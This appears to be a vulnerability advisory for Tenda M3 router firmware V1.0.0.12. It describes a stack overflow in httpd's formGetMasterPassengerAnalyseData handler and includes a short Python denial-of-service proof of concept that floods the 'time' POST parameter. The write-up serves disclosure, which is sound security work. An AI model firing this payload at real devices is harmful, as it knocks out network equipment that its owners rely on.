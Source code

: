 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formGetMasterPassengerAnalyseData` function, which can be accessed via the URL `goform/getMasterPassengerAnalyseData`.

<img src="img/image-20220527165613467.png" alt="image-20220527165613467" style="zoom:67%;" />

<img src="img/image-20220527165636788.png" alt="image-20220527165636788" style="zoom: 67%;" />

`formGetMasterPassengerAnalyseData` function gets the POST parameter `time` and copies to stack buffer without checking its length, causing a stack overflow vulnerability.

 ## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"time": b'A'*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/getMasterPassengerAnalyseData", data=data, cookies=cookies)
print(res.content)
```


